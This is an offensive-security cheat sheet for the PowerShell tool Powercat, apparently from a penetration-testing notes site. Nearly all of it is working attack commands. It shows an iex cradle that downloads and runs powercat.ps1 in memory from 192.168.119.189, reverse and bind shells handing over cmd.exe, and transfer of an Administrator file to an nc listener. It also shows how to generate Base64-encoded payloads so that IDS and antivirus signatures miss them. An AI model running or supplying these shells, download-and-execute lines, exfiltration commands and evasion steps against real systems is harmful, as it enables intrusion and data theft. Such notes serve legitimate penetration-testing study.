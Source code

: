 # Powercat

## Powercat Options

```text
powercat -h

-l option to create a listener
-c option specifies client mode and sets the listening IP address
-p specifies the port number to connect to
-i indicates the local file that will be transferred remotely
-g option to redirect the output to a file
-e to generate a stand-alone encoded payload
```

## Loading Powercat

```text
PS C:> . .\powercat.ps1
```

Note powercat.ps1 loaded as above is only available to the current PowerShell instance

Alternatively, can use `iex` to load downloaded powercat.ps1 script in memory and user powercat directly:

`PS C:> iex (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe`

## File Transfer

```text
powercat -c 192.168.119.189 -p 443 -i C:\Users\Administrator\file.txt
```

```text
sudo nc -lnvp 443 > file.txt
```

## Reverse/Bind Shells

```text
powercat -c 192.168.119.189 -p 443 -e cmd.exe
```

```text
powercat -l -p 443 -e cmd.exe
```

{% page-ref page="../../collections/reverse-shell/powershell.md" %}

{% page-ref page="../../collections/bind-shell/powershell.md" %}

## Powercat stand-alone payloads

`-g` option

```text
PS C:\Users\Administrator> powercat -c 192.168.119.189 -p 443 -e cmd.exe -g > reverseshell.ps1
PS C:\Users\Administrator> ./reverseshell.ps1
```

It’s worth noting that:

* stand-alone payloads like this one might be easily detected by IDS. 
* the script that is generated is rather large with roughly 300 lines of code. 
* it also contains a number of hardcoded strings that can easily be used in signatures for malicious activity. 
* plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.

### Encoded payloads

We can attempt to overcome this problem by making use of PowerShell’s ability to execute Base64 encoded commands:

`-e` option

```text
// reverse shell
PS C:\> powercat -c 192.168.119.189 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1

// bind shell
PS C:\> powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E \(EncodedCommand\) option. Just need to pass the whole encoded string to powershell.exe -E:

```text
PS C:\> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACA[...]
```

